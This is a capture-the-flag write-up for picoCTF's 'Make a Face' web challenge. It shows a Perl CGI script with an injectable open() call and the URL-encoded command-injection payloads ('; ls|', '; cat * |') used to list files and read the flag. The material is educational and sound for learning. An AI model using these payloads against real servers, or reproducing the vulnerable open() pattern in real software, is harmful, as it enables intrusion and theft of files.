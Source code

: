 ## Make a Face - 100 (Web Exploitation)
####Writeup by Oksisane

Created: 2014-11-08 15:05:08

Last modified: 2014-11-09 23:28:11



### Problem

It looks like Daedalus is working on a new project to generate digital avatars for use online. After taking a look, at their site: http://makeaface.picoctf.com/ it seems like there is a pretty good chance the project isn't completed, and may have some bugs. This might be the break we've been looking for to get inside their network.

### Hint

Making a face is cool, but making a shell is even better

## Answer


### Overview

Exploit Perl's [open](http://perldoc.perl.org/functions/open.html) command to run shell commands and `cat *` to print the contents of the flag.

### Details
Opening the source of `http://makeaface.picoctf.com/` we can see the perl source used to create the page (reproduced below):
```perl
#!/usr/bin/perl

use CGI;

$q = new CGI;
if (defined($q->param('Head'))) {
  print $q->header(-type=>'image/bmp');
  open(HEAD,"head".$q->param('Head'));
  open(HAIR,"hair".$q->param('Hair'));
  open(NOSE,"nose".$q->param('Nose'));
  open(MOUTH,"mouth".$q->param('Mouth'));
  open(EYES,"eyes".$q->param('Eyes'));

  while (read(HEAD,$headb,1)) {
    read(HAIR,$hairb,1);
    read(NOSE,$noseb,1);
    read(MOUTH,$mouthb,1);
    read(EYES,$eyesb,1);
    print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
  }
}
```
The `else` part of this code just performs initial page setup, so we can ignore it. Looking closer at the source we can see that the `open` function is called on on the user's selection of face components. To figure out how these are being sent to the script, we go back to the source of http://makeaface.picoctf.com/ where we find `js.js` (partially reproduced below).
```js

function loadImage() {
  var head = document.getElementsByName("Head")[0];
  var hair = document.getElementsByName("Hair")[0];
  var nose = document.getElementsByName("Nose")[0];
  var mouth = document.getElementsByName("Mouth")[0];
  var eyes = document.getElementsByName("Eyes")[0];
  var loading = document.querySelector("video");
  var canvas = document.querySelector("canvas")
  canvas.width = 256;
  canvas.height = 256;
  var context = canvas.getContext('2d');
  var image = new Image();
  image.src = "index.cgi?Head="+head.value+".bmp&Hair="+hair.value+".bmp&Nose="+nose.value+".bmp&Mouth="+mouth.value+".bmp&Eyes="+eyes.value+".bmp";
  loading.play();
  var i = setInterval(draw,20,loading,context);

  setTimeout(function(){clearInterval(i);context.drawImage(image,0,0);},wait);
  wait -= 200;
}
```
This load image function simply makes a request to the server in the format `<selection>.bmp` for each face component. For example, one valid component is `1.bmp`. At this point I am going to switch over to using [Postman](https://chrome.google.com/webstore/detail/postman-rest-client/fdmmgilgnpjigdojojpjoooidkmcomcm?hl=en) a Chrome extension which makes sending requests to a server easy. Once you have postman installed, browse to `chrome://apps` and click on Postman to open it. Fill out the settings as shown below (where the url is `http://makeaface.picoctf.com/index.cgi`):

<img src="makeafacecap1.JPG"/>

Now that we can send POST requests to the server and recieve the responses, we need to figure out how to exploit this. As noted earlier, our input is being passed to the perl `open` function. A little googling [reveals](http://www.cgisecurity.com/lib/sips.html) that this is a big security issue. By appending a `|` to the end of our post request, whatever we send to the server will be executed as a shell command and the result will be sent back inside the image file! Let's try it in Postman (shown below):

<img src="makeafacecap2.JPG"/>

Huh, that didn't work. Let's look back at the Perl line that interprets our input.
```perl
open(HEAD,"head".$q->param('Head'));
```
In our case, the open function would look like `headls |` and the server would try to run the `headls command` instead of the `ls` command. To fix this we add a `;` to the the start of our post request, so that the command executed by the server is `head; ls;`. Our full exploit is now `; ls|`.The postman request now looks like this:
<img src="makeafacecap3.JPG"/>

Weird, that still didn't work. Since we are using special characters such as `|` and `;` we need to [URL Encode](http://www.w3schools.com/tags/ref_urlencode.asp) them. [This Tool](http://meyerweb.com/eric/tools/dencoder/) works well. When we input our string, `;ls |` we get `%3Bls%20%7C`. Also, since the first line of the perl script is
```perl
print $q->header(-type=>'image/bmp');
```
our browser thinks the resulting data is an image, not text. To fix this we simply download the image resulting from our post request (right click - save as) and open the downloaded file in a text editor. Puting all those fixes together, we get this postman request:
<img src="makeafacecap4.JPG"/>

opening it gives us the text
```

head4.bmp
index.cgi
js.js
mouth1.bmp
mouth2.bmp
mouth3.bmp
nose1.bmp
nose2.bmp
nose3.bmp
```
but the file seems a bit malformed (with a bunch of NULLs at the start). Looking back at the perl script we see this line

```perl
print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
```
preforms a binary AND on all of the inputs. To get around this we simply set each input to our exploit instead of just the Head value:
<img src="makeafacecap5.JPG"/>
![alt text](makeafacecap5.JPG)

Which reveals the text

```

SECRET_KEY_2b609783951a8665d8c67d721b52b0f8
css.css
eyes1.bmp
eyes2.bmp
eyes3.bmp
eyes4.bmp
hair0.bmp
hair1.bmp
hair2.bmp
head1.bmp
head2.bmp
head3.bmp
head4.bmp
index.cgi
js.js
mouth1.bmp
mouth2.bmp
mouth3.bmp
nose1.bmp
nose2.bmp
nose3.bmp

```

Now let's send another request to read the `SECRET_KEY_2b609783951a8665d8c67d721b52b0f8` file. By using the command `cat *` we can print out the contents of any file in the directory. So we set our command to `; cat * |`, which is `%3B%20cat%20*%7C` urlencoded.
<img src="makeafacecap6.JPG"/>.

Downloading and opening the `bmp` with a text editor reveals the flag!
### Flag
    why_did_we_stop_using_perl_again?
